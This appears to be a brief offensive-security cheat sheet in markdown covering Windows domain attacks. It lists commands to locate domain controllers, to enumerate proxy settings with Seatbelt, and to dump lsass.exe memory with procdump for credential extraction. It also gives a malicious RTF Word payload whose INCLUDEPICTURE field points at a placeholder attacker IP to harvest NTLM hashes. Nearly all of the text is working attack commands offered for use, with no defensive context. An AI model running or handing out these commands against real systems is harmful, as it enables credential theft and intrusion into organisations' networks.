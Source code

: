 - Host Discovery/Enum
	- Find Domain Controller
		- `nslookup -q=srv _ldap._tcp.dc._msdcs.contoso.local`
		- `nltest /dclist:contoso.local`
			- Requires domain user privs

- Seatbelt
	- Enumerate proxy settings
		- `seatbelt.exe InternetSettings`

- SysInternals
	- ProcDump64.exe
		- `procdump.exe -accepteula -ma lsass.exe lsass.dmp`

- Malicious Word document with UNC path for embedded image, for harvesting hashes
	- `{\\rtf1{\\field{\\*\\fldinst {INCLUDEPICTURE "file://<kail ip>/a.jpg" \\\\* MERGEFORMAT\\\\d}}{\\fldrslt}}}`
